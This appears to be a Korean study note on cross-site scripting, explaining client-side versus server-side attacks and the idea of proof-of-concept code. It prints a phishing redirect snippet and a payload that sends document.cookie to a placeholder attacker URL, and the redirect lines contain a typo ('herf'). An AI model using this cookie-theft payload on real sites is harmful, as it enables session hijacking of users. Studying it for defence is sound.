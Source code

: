 # XSS 공격 정리

## Cross Site Scripting
크로스 사이트 스크립팅.

SQL Injection과 함께 웹 상에서 가장 기초적인 취약점 공격 방법의 일종으로, 악의적인 사용자가 공격하려는 사이트에 스크립트를 넣는 기법을 말한다.
</br>
</br>

## Server Side vs CLient Side

```
Server Side   
-> 서버에서 실행되는 코드    
(php)   

Clinet Side   
-> 클라이언트 측에서 실행되는 코드   
(웹 브라우저)

SQLi = Server Side
XSS  = Client Side 
```

XSS는 클라이언트 측 코드를 삽입하는 공격이다.   
이용자(피해자)의 웹 브라우저에서 실행되게 만드는 공격.   
서버에는 아무 영향을 주지 않는 것이 특징이다.
</br>
</br>

SQL Injection = 대표적인 서버를 공격하는 방법   
XSS           = 웹 사이트를 쓰는 이용자들을 공격하는 방법

XSS 는 HTML, Javascript를 통해서 공격한다.
</br>
</br>

---
## XSS, POC 코드(증명용 코드)

1. 웹 브라우저에서 F12를 눌러 개발자 모드를 연다.   
![1](https://user-images.githubusercontent.com/106296883/236417360-b04e80d0-7da3-4c15-ab15-0590ddf0bd9c.PNG)


2. Console 탭을 누른다.   
![2](https://user-images.githubusercontent.com/106296883/236417518-6ad761eb-0c00-4c0c-8855-22f833360448.PNG)


3. POC 코드를 삽입한다.   
const, let, var 등 사용   
![3](https://user-images.githubusercontent.com/106296883/236417870-c8169e5d-6aa2-4a65-8104-cb360abe10ff.PNG)   
![4](https://user-images.githubusercontent.com/106296883/236417875-6a321e14-0f86-4c27-a1fd-8157a76b046d.PNG)

</br>

POC 코드(Proof of Concept)   
- 사전적 의미 : 개념 증명(POC)은 기존 시장에 없었던 신기술을 도입하기 전에 이를 검증하기 위해 사용하는 것을 의미.
- 보안 업무에서 POC 코드란 취약점을 이용한 공격이 가능함을 보여주는 시현 소스코드의 의미.
- 취약점을 사용할 수 있다는 것만 증명하면 되기 때문에 필요한 내용으로만 작성된 코드로 간단하게 작성된다. 
</br>
</br>

```
<페이지 이동>


location.herf = "공격자 피싱 사이트";
location.replace = "공격자 피싱 사이트";
```
```
<Web Request>


var i = new Image();
i.src = "attack URL?cookie=" + document.cookie

---

var i = new Image();   
=>   
<img   > 의미.

i.src = "attack URL?cookie=" + document.cookie   
=> 
src=''

==>
<img src="attack URL?cookie=" + document.cookie>
```


```
<Keylogger>
```
```
<Crypto miner>
```
</br>
</br>



